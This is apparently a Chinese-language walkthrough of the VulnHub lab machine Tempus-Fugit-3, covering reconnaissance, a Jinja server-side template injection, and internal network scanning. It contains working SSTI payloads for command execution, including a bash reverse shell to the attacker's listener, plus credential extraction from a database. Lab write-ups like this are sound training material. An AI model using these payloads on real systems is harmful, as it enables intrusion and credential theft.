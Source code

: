 #  vulnhub系列——Tempus-Fugit-3

# 一、信息收集

1. 主机发现

   ``` shell
   sudo arp-scan -l
   ```

   ![1.png](img/vulnhub/Tempus-Fugit-3/Image1.png)

2. 端口扫描

   ``` shell
   nmap -Pn -sC -sV -p- 192.168.50.128
   ```

   ![2.png](img/vulnhub/Tempus-Fugit-3/Image2.png)

3. 指纹识别

   ``` shell
   whatweb 192.168.50.128
   ```

   ![3.png](img/vulnhub/Tempus-Fugit-3/Image3.png)

4. 目录扫描

   ``` shell
   dirsearch -u http://192.168.50.128 -e *
   ```

   ![4.png](img/vulnhub/Tempus-Fugit-3/Image4.png)

# 二、外网突破

1. 没有扫描出什么有用的东西，测试报错，访问不存在的URL，报错显示了通过URL传递的内容

   ![5.png](img/vulnhub/Tempus-Fugit-3/Image5.png)

2. 再测试一下{{7*7}}，页面回显不一样了，报错回显中URL参数变成了49，说明{{7*7}}被执行了，URL参数传递存在SSTI模板注入

   ![6.png](img/vulnhub/Tempus-Fugit-3/Image6.png)

3. 测试以下Payload，查看用户id

   ``` shell
   http://192.168.50.128/{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
   ```

   ![7.png](img/vulnhub/Tempus-Fugit-3/Image7.png)

4. 反弹shell，Payload如下，在kali上开启netcat监听

   ``` shell
   {{''.__class__.__mro__[1].__subclasses__()[373]("bash -c 'bash -i >& /dev/tcp/192.168.50.172/4444 0>&1'",shell=True,stdout=-1).communicate()[0].strip()}}
   ```

   ![8.png](img/vulnhub/Tempus-Fugit-3/Image8.png)

5. 成功获取shell

   ![9.png](img/vulnhub/Tempus-Fugit-3/Image9.png)

6. ls -al查看当前目录下的所有文件

   ![10.png](img/vulnhub/Tempus-Fugit-3/Image10.png)

7. cat app.py，发现有一个key

   ![11.png](img/vulnhub/Tempus-Fugit-3/Image11.png)

8. 下面还有数据库交互，发现数据库文件地址

   ![12.png](img/vulnhub/Tempus-Fugit-3/Image12.png)

9. cd进入static目录，ls找到数据库文件

   ![13.png](img/vulnhub/Tempus-Fugit-3/Image13.png)

10. 执行以下命令，进入数据库交互

    ``` shell
    sqlcipher db2.db --interactive
    ```

    ![14.png](img/vulnhub/Tempus-Fugit-3/Image14.png)

11. 成功获取用户名和密码

    ![15.png](img/vulnhub/Tempus-Fugit-3/Image15.png)

    ![16.png](img/vulnhub/Tempus-Fugit-3/Image16.png)

    ``` shell
    hugh-janus|S0secretPassW0rd
    anita-hanjaab|ssdf%dg5xc
    clee-torres|asRtesa#2s
    RmxhZzN7IEhleSwgcmVhZGluZyBzZWNyZXRzICB9|
    ```

12. 最后一个加密了，base64解码一下

    ![17.png](img/vulnhub/Tempus-Fugit-3/Image17.png)

13. 逐个登录一下

    ![18.png](img/vulnhub/Tempus-Fugit-3/Image18.png)

    ![19.png](img/vulnhub/Tempus-Fugit-3/Image19.png)

    ![20.png](img/vulnhub/Tempus-Fugit-3/Image20.png)

14. 都提示51235，可能是端口，F12查看源码，发现一串密文

    ``` shell
    RmxhZzJ7IElzIHRoaXMgdGhlIGZvb3Rob2xkIEkgaGF2ZSBiZWVuIGxvb2tpbmcgZm9yP30=
    ```

    ![21.png](img/vulnhub/Tempus-Fugit-3/Image21.png)

15. base64解码，第二个flag

    ![22.png](img/vulnhub/Tempus-Fugit-3/Image22.png)

# 三、内网渗透

1. 刚开始扫描端口的时候只发现了22和80两个端口，那么这个51235端口可能是内网端口，但是web容器上没有nmap、nc，也无法安装，只能使用脚本进行内部扫描，成功扫出2个ip

   ``` python
   for i in {1..254} ;do (ping -c 1 192.168.100.$i | grep "bytes from" &) ;done
   ```

   ![23.png](img/vulnhub/Tempus-Fugit-3/Image23.png)

2. 考了这篇文章，用以下方法创建了一个扫描脚本，[Tempus fugit 3 writeup (mzfr.me)](https://blog.mzfr.me/vulnhub-writeups/2019-10-09-fugit3)

   ``` shell
   echo 'import socket' > scan.py
   echo 'for port in range(1, 65535):' >> scan.py
   echo '    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)' >> scan.py
   echo '    sock.settimeout(1)' >> scan.py
   echo '    result = sock.connect_ex(("192.168.100.1", port))' >> scan.py
   echo '    if 0 == result:' >> scan.py
   echo '        print(port)' >> scan.py
   echo '    sock.close()' >> scan.py
   ```

3. 192.168.100.1开放了51235端口

   ![24.png](img/vulnhub/Tempus-Fugit-3/Image24.png)

